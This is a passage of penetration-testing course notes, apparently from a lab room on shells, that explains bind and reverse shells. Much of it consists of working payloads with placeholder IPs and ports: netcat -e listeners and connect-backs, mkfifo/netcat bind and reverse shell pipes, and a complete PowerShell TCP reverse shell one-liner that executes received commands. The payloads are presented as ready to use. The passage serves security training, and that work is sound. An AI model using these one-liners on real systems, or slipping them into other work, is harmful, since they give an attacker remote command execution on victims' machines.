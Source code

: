 We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.  

---

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

`nc -lvnp <PORT> -e /bin/bash`  

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.  

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`  

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

> _The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._

![](./img/Pasted%20image%2020230904123801.png)

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`  

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![](./img/Pasted%20image%2020230904123819.png)

---

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.  

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`  
